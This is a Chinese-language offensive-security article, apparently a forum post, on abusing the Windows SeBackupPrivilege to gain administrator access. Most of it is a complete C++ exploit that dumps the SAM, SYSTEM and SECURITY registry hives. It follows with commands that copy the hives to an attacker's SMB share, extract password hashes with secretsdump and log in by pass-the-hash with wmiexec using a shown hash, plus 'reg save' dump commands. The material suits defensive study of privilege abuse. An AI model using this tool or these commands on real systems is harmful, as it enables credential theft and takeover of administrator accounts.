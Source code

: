 SeBackupPrivilege
-----------------

### 禁止任何公众号/营销号转发

SeBackupPrivilege 特权在 Microsoft 官方文档中被描述为 “*Back up files and directories*”，拥有该特权的任何进程被授予对任何文件或对象的所有读取访问控制，而不管为文件或对象指定的访问控制列表（ACL）。除读取之外的任何访问请求仍使用 ACL 进行评估。

滥用该特权，我们可以调用 `RegSaveKeyW()` 函数将 SAM 注册表转储到本地文件中，如下所示。

```c++
// Saves the specified key and all of its subkeys and values to a new file.
lResult = RegSaveKeyW(hKey, std::wstring(savePath).append(L"\\").append(subKeys[i]).c_str(), NULL);
if (lResult != ERROR_SUCCESS)
{
    wprintf(L"[-] RegSaveKeyW Error: [%u].\n", lResult);
    return status;
}
wprintf(L"[*] Dump %s hive successfully.\n", subKeys[i]);
```

然后从转储文件中读取本地管理员帐户的密码哈希值，得到的管理员用户哈希可以用来执行哈希传递，并获取系统管理权限。

下面给出可供参考的利用代码，首先通过 `AdjustTokenPrivileges()` 函数为当前进程开启 SeBackupPrivilege 特权，然后调用 `RegOpenKeyExW()` 函数打开并读取 `HKLM\SAM`、`HKLM\SECURITY` 和`HKLM\SYSTEM` 注册表，最后用 `RegSaveKeyW()` 函数将上述注册表保存到文件。

- SeBackupPrivilege.cpp

```c++
#include <Windows.h>
#include <iostream>
#include <stdio.h>

BOOL ExploitSeBackupPrivilege(LPCWSTR savePath)
{
    BOOL status = FALSE;
    DWORD lResult;
    HKEY hKey;
    LPCWSTR subKeys[] = { L"SAM", L"SYSTEM",L"SECURITY" };

    for (int i = 0; i < 3; i++)
    {
        // Opens the specified registry key.
        lResult = RegOpenKeyExW(HKEY_LOCAL_MACHINE, subKeys[i], REG_OPTION_BACKUP_RESTORE, KEY_READ, &hKey);
        if (lResult != ERROR_SUCCESS)
        {
            wprintf(L"[-] RegOpenKeyExW Error: [%u].\n", lResult);
            return status;
        }
        // Saves the specified key and all of its subkeys and values to a new file.
        lResult = RegSaveKeyW(hKey, std::wstring(savePath).append(L"\\").append(subKeys[i]).c_str(), NULL);
        if (lResult != ERROR_SUCCESS)
        {
            wprintf(L"[-] RegSaveKeyW Error: [%u].\n", lResult);
            return status;
        }
        wprintf(L"[*] Dump %s hive successfully.\n", subKeys[i]);
        status = TRUE;
    }
    return status;
}

BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
    BOOL status = FALSE;
    LUID luidValue = { 0 };
    TOKEN_PRIVILEGES tokenPrivileges;

    // Get the LUID value of the privilege for the local system
    if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
    {
        wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
        return status;
    }

    // Set escalation information
    tokenPrivileges.PrivilegeCount = 1;
    tokenPrivileges.Privileges[0].Luid = luidValue;
    tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    // Elevate Process Token Access
    if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
    {
        wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
        return status;
    }
    else
    {
        status = TRUE;
    }
    return status;
}

void PrintUsage()
{
    wprintf(
        L"Abuse of SeBackupPrivilege by @WHOAMI (whoamianony.top)\n\n"
        L"Arguments:\n"
        L"  -h           Show this help message and exit\n"
        L"  -o <PATH>    Where to store the sam / system / security files (can be UNC path)\n"
    );
}

int wmain(int argc, wchar_t* argv[])
{
    HANDLE hToken    = NULL;
    LPCWSTR savePath = L"C:\\Users\\Public";

    while ((argc > 1) && (argv[1][0] == '-'))
    {
        switch (argv[1][1])
        {
        case 'h':
            PrintUsage();
            return 0;
        case 'o':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                savePath = (LPCWSTR)argv[1];
            }
            break;
        default:
            wprintf(L"[-] Invalid Argument: %s.\n", argv[1]);
            PrintUsage();
            return 0;
        }

        ++argv;
        --argc;
    }

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
    {
        wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
        return 0;
    }
    // Enable SeBackupPrivilege for the current process token.
    if (EnableTokenPrivilege(hToken, SE_BACKUP_NAME))
    {
        if (ExploitSeBackupPrivilege(savePath))
        {
            return 1;
        }
    }
}
```

将编译并生成好的 SeBackupPrivilege.exe 上传到目标主机，执行以下命令，将 SAM 注册表转储并导出到文件。这里通过 `-o` 选项指定保存的路径，笔者指定 UNC 路径将注册表保存到远程共享中，避免当前用户在本地系统上没有写入权限的情况，如下所示。

```c++
SeBackupPrivilege.exe -o \\172.26.10.128\evilsmb
```

![image-20230208220939973](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-8c7a54a078bf34eabdff5f5f128eee2b5de31658.png)

接着，我们通过解析 SAM 数据库获得本地管理员的哈希，如下图所示。

```bash
python3 secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

![image-20230208214808892](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-9424329e0a5b5bfe139a058b0dc29c69a768bd07.png)

最后，使用管理员哈希执行哈希传递，获取目标系统管理权限，如下图所示。

```bash
python3 wmiexec.py ./Administrator@172.26.10.21 -hashes :cb136a448767792bae25563a498a86e6
```

![image-20230208214159428](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-8c4c78e42ceb49cd845b50078f2c07ff7ac677e8.png)

当然，我们可以直接通过 `reg save` 命令将 SAM 注册表导出，如下图所示。这是因为在 `reg` 命令内部会自动调用 `AdjustTokenPrivileges()` 函数为当前进程开启 SeBackupPrivilege 特权。

```cmd
reg save HKLM\SAM C:\Users\Public\SAM
reg save HKLM\SYSTEM C:\Users\Public\SYSTEM
```

![image-20230208220621473](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-466e306e267bdadb3d40f93012d77b9941411cc1.png)